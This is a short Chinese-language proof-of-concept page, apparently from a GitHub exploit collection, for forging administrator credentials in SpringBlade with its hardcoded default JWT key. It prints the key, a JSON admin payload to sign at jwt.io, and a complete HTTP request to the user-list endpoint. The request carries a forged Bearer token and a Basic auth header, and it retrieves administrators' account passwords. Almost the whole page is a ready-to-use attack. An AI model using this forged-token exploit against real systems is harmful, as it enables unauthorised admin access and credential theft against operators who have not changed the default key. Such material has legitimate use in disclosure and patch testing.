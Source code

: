 ## Springblade默认密钥可伪造凭据

密钥：bladexisapowerfulmicroservicearchitectureupgradedandoptimizedfromacommercialproject

## poc
```
{
  "tenant_id": "000000",
  "tenant_code":"000000",
  "user_name": "admin",
  "role_name": "administrator",
  "nick_name": "管理员",
  "account": "admin"
}
```
在 https://jwt.io/ 中填入上面得poc和密钥，即可得到jwt加的凭据

![image](https://github.com/wy876/POC/assets/139549762/042c7596-fa3a-4d25-ad0a-3c67d9fcecd8)


## 构造凭据获取管理员用户账户密码
```
GET /api/blade-user/user-list HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic c2FiZXI6c2FiZXJfc2VjcmV0
Blade-Auth: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJpc3MiOiJpc3N1c2VyIiwiYXVkIjoiYXVkaWVuY2UiLCJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwidXNlcl9uYW1lIjoiYWRtaW4iLCJuaWNrX25hbWUiOiLnrqHnkIblkZgiLCJ0b2tlbl90eXBlIjoiYWNjZXNzX3Rva2VuIiwiZGVwdF9pZCI6IjExMjM1OTg4MTM3Mzg2NzUyMDEiLCJhY2NvdW50IjoiYWRtaW4iLCJjbGllbnRfaWQiOiJzYWJlciJ9.UHWWVEc6oi6Z6_AC5_WcRrKS9fB3aYH7XZxL9_xH-yIoUNeBrFoylXjGEwRY3Dv7GJeFnl5ppu8eOS3YYFqdeQ
```
